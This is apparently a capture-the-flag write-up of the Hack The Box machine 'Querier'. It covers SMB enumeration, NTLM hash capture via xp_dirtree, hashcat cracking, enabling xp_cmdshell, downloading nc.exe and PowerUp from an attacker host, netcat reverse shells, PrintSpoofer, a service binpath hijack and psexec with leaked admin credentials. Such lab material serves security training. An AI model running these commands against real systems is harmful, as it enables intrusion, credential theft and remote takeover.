 # Querier

### Full Port Scan

<figure><img src="../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>

### Nmap Aggressive scan

<figure><img src="../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

### Enumerating SMB

* `smbclient -L //10.10.10.125 -N`

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

* Found `Currency Volume Report.xlsm`

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

* Opening the file, I saw that there’s macros inside
* Opening up `Currency Volume Report.xlsm` —> `view code`

<figure><img src="../../.gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

* Found password `PcwTWTHRwryjc$c6` and username: `reporting`, Database: `volume`
* Using the creds, managed to login to the MSSQL server

```bash
/usr/share/doc/python3-impacket/examples/mssqlclient.py reporting@10.10.10.125 -windows-auth
```

### Capture mssql credentials-with xp-dirtree and smbserver-py

* Setup the smbserver

```bash
python3 /usr/local/bin/smbserver.py share . -smb2support
```

* Login to MSSQL server

```bash
/usr/share/doc/python3-impacket/examples/mssqlclient.py reporting@10.10.10.125 -windows-auth
```

* Run the `xp_dirtree` command to connect to our smbserver

```bash
EXEC master.sys.xp_dirtree '\\\\10.10.14.6\\share',1, 1
```

* Obtained the hash for `mssql-svc` account

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

```bash
mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:533f791f193e74c54f52806542c622ee:010100000000000000aa4a71c657d90177d39b57c2e762eb0000000001001000500075004b0071004900470061006f0003001000500075004b0071004900470061006f000200100056004d004a00510070006900760073000400100056004d004a00510070006900760073000700080000aa4a71c657d901060004000200000008003000300000000000000000000000003000007f0fd403abd9b83ec1da57b18ed542302ab365d2b86e14497a32441ca7a2abe60a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003600000000000000000000000000
```

### Cracking Hash

* Identify hash type

```bash
hashcat --identify mssql_svc.hash
```

<figure><img src="../../.gitbook/assets/image (178).png" alt=""><figcaption></figcaption></figure>

* Use hashcat to crack the hash

```bash
hashcat -m 5600 -a 0 mssql_svc.hash /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

* Got the credentials

```bash
MSSQL-SVC:corporate568
```

### Login as `mssql-svc` on MSSQL server

```bash
/usr/share/doc/python3-impacket/examples/mssqlclient.py mssql-svc@10.10.10.125 -windows-auth
```

* Configure `xp_cmdshell`

```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

* make `c:\\temp` directory and download `nc.exe` from attacker and execute a reverse shell back to attacker

```bash
xp_cmdshell "mkdir c:\\temp"
```

```bash
xp_cmdshell "powershell -c cd C:\\Users\\mssql-svc\\Downloads; wget <http://10.10.14.6/nc.exe> -outfile nc.exe"
xp_cmdshell "powershell -c cd C:\\Users\\mssql-svc\\Downloads; .\\nc.exe -e cmd.exe 10.10.14.6 443"
```

* Got user shell!

<figure><img src="../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

### Running `powerup.ps1`

```bash
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.6/powerup.ps1' -OutFile 'C:\\Users\\mssql-svc\\Downloads\\powerup.ps1'"
```

```bash
powershell -ep bypass .\powerup.ps1
```

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

3 Methods are present:

1. `SeImpersonatePrivilege` is enabled —> printspoofer
2. Insecure Service Permissions for `UsoSvc` service —> change the `binpath` to reverse shell
3. Cached GPP Files password —> `Administrator:MyUnclesAreMarioAndLuigi!!1!`

### Method 1 (PrintSpoofer):

* Download PrintSpoofer from attacker

```bash
powershell -c "Invoke-WebRequest -Uri 'http://10.10.14.6/printspoofer64.exe' -OutFile 'C:\\Users\\mssql-svc\\Downloads\\printspoofer64.exe'"
```

```bash
printspoofer64.exe -c "nc.exe -e cmd.exe 10.10.14.6 4444"
```

<figure><img src="../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

### Method 2 (Insecure Service Permissions):

* Displays more information about a service

```bash
sc qc UsoSvc
```

<figure><img src="../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

```bash
sc config usosvc binpath="c:\\Users\\mssql-svc\\Downloads\\nc.exe -e cmd.exe 10.10.14.6 4444"
```

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

### Method 3:

* Using the creds: `Administrator:MyUnclesAreMarioAndLuigi!!1!` to login

```bash
impacket-psexec administrator@10.10.10.125
```

<figure><img src="../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>
